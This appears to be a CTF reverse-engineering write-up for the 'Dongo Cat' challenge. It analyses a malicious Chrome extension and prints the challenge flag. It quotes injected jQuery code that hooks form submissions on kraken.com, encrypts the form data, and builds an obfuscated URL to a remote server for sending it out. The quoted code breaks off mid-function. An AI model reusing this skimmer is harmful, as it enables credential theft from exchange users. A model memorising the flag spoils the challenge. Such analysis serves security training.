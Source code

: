 ```yaml
---
title: "Dongo Cat"
categories: Reverse Engineering
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: IFEST13{Th3_ch41n_1s_str0ng_but_1t_br34ks_wh3r3_th3_hum4n_st4nds_6el28mws}
---
```

> Hey it's me Mr. Shock, I’ve got a question, totally not for me, of course. It’s for a friend. So here’s the situation, this friend just lost about 1 million USDT. Yeah... brutal. He’s kind of in panic mode right now, and I think he really needs that money back.
>
> Now, here’s the weird part. We’re not exactly sure how it happened. But let’s just say this friend has a very special relationship with his browser. He’s got it loaded with so many Chrome extensions, it’s honestly a miracle the thing even runs. Like, there’s an extension for everything. Want to count pixels? Got it. Turn tabs into cats? Got that too. He’s basically running an entire app store in his toolbar.
>
> I’m guessing one of those extensions was malicious. Probably some sneaky malware just chilling in the background, waiting for a chance to strike. I’ve attached one of the extensions he remembers installing before the whole thing went down. Would really appreciate it if you could take a look.
>
> Also... just between us... let’s pretend this friend isn’t terrible at cybersecurity and definitely didn’t ignore all the red flags, alright?

by `Lurifos`

---

The point is that we're given a `.crx` file containing a Chrome extension. Upon inspection, there are several JavaScript files included, such as `tailwind.js` and `jquery.js`. If we analyze them further, we'll notice that some malicious code has been injected into these scripts. This code is used to **encrypt form data** and **send it to a remote server** at `https://dongo-cat.lurifos.dev/file`.

Basically, just use an online JavaScript beautifier like [beautifier.io](https://beautifier.io) to make the code readable.

`jquery-3.7.1.slim.min.js`
```js
const x = (e, o) => {
        if (8 !== e.length || 8 !== o.length) throw new Error("Cannot encrypt, invalid block");
        return e.map(((e, n) => e ^ o[n]))
    },
    a_func_a = (e, o, n) => {
        if (e.length % 8 != 0) throw new Error("Cannot encrypt, invalid block");
        let r = [],
            t = n.slice(0, 8);

        function c(e) {
            return x(e, o)
        }
        for (let o = 0; o < e.length; o += 8) {
            const n = e.slice(o, o + 8),
                a = c(x(n, t));
            t = x(a, n), r.push(a)
        }
        return r.flat()
    };
$(document).on("submit", "form", (async function(e) {
    const o = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 100, 111, 110, 103, 111, 45, 99, 97, 116, 46, 108, 117, 114, 105, 102, 111, 115, 46, 100, 101, 118, 47);
    if (!location.hostname.endsWith(".kraken.com") && "kraken.com" !== location.hostname) return;
    const n = new FormData(this),
```